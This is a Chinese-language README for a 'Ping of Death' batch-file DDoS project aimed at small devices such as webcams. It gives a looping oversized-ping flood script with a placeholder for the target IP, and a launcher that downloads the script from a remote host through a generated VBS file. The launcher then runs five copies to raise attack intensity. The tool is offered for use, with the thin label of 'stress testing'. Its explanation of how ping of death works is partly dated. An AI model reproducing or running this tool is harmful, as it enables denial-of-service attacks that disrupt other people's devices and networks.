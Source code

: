 # Ping of Death：使用bat进行DDOS  
## 介绍
“Ping of Death” 是一个通过bat批量处理文件来进行DDOS的项目，你可以用它来进行对网络摄像头等小型设备进行压力测试。
## 下载
### pingofdeath.bat
我们提供**单个执行文件**，您可以使用它在**断开互联网**的情况下使用。[点击这里下载pingofdeath.bat](https://pingofdeath.vercel.app/pingofdeath.bat)  
### startofping.bat
同时，在**联网的情况**下我们也提供更高效的启动器，集成**下载**和**运行**功能。在默认情况下，你最多可以通过它一次**启动10个**pingofdeath.bat。你可以[点击这里下载startofping.bat](https://pingofdeath.vercel.app/startofping.bat)  
## 配置
startofping.bat并不需要特别配置，您只需要配置pingofdeath.bat即可。  
这里提供源代码参考，你只需要**替换你的目标IP**即可。  

    :loop
    ping <填写你的IP> -l 65500 -w 1 -n 1
    goto :loop

****
## 解读  
### pingofdeath.bat  
ping 数据包也可以通过向目标 IP 地址发送连续的 ping 数据包来执行拒绝服务攻击。持续 ping 会导致目标系统的缓冲区溢出，并导致目标系统崩溃。   
一个 ping 数据包的大小通常为 56 字节或 84 字节（包括 IP 标头）。但是，一个 ping 数据包也可以最大为 65,536 字节。  
并非所有计算机都可以处理大于固定大小的数据。因此，当一个 ping of death 数据包从源计算机发送到目标计算机时，ping 数据包会被分割成更小的数据包组。  
一个片段大小为 8 个八位字节。当这些数据包到达目标计算机时，它们会分段到达。因此，目标计算机重新组装成块收到的格式错误的数据包。  
但是，整个组装的数据包会导致目标计算机的缓冲区溢出。  
这种缓冲流经常导致系统崩溃，使系统更容易受到攻击。  
### startofping.bat
这是pingofdeath.bat的启动器，它包括下载和运行两种功能。
下载功能很简单，[百度知道](https://zhidao.baidu.com/question/2015853793461382908.html)里面有回答。  
但是值得注意的是，如果你使用了上面的代码，我们需要稍作修改，因为这可能会遇到权限问题，具体在下面说明。  
考虑到大部分用户会把文件放在C盘（桌面），我们没有管理员权限，所以就制定了两种下载方案。
####  1.放在D盘  
考虑到不同系统对于C盘权限要求不同，我们选择把文件放在D盘。  

    ::设置文件保存目录，若下载至当前目录，请留空  
    set Save=D:\

注意，上面的代码会创建一个DownloadFile.vbs文件来下载startofping.bat。由于权限问题，我们需要指定路径。  

    ::原代码
    echo End Sub)>DownloadFile.vbs
    ::修改为
    echo End Sub)>D:\DownloadFile.vbs

最后，我们需要启动下载的文件。我们在这里重复5次来加大DDOS效率。  

    start D:\pingofdeath.bat
    start D:\pingofdeath.bat
    start D:\pingofdeath.bat
    start D:\pingofdeath.bat
    start D:\pingofdeath.bat

####  2.放在C盘
考虑到极个别电脑只有C盘一个盘符（虽然这种可能性极小），我们还是准备了C盘方案。经检验，Windows11系统的C:\Users\Public\是可以无权限使用的。所以同理：  


    ::设置文件保存目录，若下载至当前目录，请留空
    set Save=C:\Users\Public\

更改DownloadFile.vbs文件指定路径。  

    ::原代码
    echo End Sub)>DownloadFile.vbs
    ::修改为
    echo End Sub)>C:\Users\Public\DownloadFile.vbs

最后，我们启动下载的文件。  

    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat

至此，代码就解读完成了。 
**** 
## 存放服务器
由于GitHubPage好像禁止了直接通过http下载文件，我们就使用了vercle服务，文件直接从vercel服务器获取pingofdeath.bat。  
****
作者的[博客](https://gloridust.tk)